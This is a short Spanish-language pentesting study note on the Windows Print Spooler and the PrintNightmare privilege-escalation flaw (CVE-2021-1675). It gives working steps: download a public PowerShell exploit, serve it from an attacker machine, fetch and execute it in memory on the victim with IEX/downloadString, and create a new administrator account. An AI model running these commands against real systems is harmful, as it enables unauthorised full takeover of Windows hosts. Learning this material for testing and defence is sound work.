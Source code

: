 -----
- Tags: #escalada #teoria #practica
----
# Print Spooler

El **Print Spooler** (También conocido como "Spooler de impresión") en Windows es un servicio  del sistema operativo que administra la impresión de documentos en una impresora conectada a la computadora. Su función principal es manejar la cola de impresión, que es una lista de trabajos de impresión pendientes que esperan ser procesados y enviados a la impresora.

-----
# PrintNightmare (CVE-2021-1675)

Un atacante remoto autenticado puede abusar del servicio de cola de impresión para cargar una DLL a través de una solicitud DCERPC diseñada, lo que resulta en la ejecución remota de código como **NT AUTHORITY\\SYSTEM**. Este módulo utiliza el vector MS-RPRN que requiere que se esté ejecutando el servicio Print Spooler.

----
# Explotación 

Para explotar esto, podemos hacer uso de un [script en powershell](https://github.com/calebstewart/CVE-2021-1675) que automatiza toda la explotación de esta vulnerabilidad asociada al **CVE-2021-1675**. 

#### Máquina atacante
```bash
wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1

python3 -m http.server 80
```
#### Máquina víctima
```powershell
IEX(New-Object Net.WebClient).downloadString('http://{our_ip}/CVE-2021-1675.ps1')

Invoke-Nightmare -DriverName "dobliuw" -NewUser "dobliuw" -NewPassword "dobliuw123$!"
```
Una vez realizado este proceso, se creara un nuevo usuario llamado dobliuw con la contraseña dobliuw123$! perteneciente al grupo **Administrators** de manera que habríamos escalado privilegios obteniendo el máximo acceso al sistema.


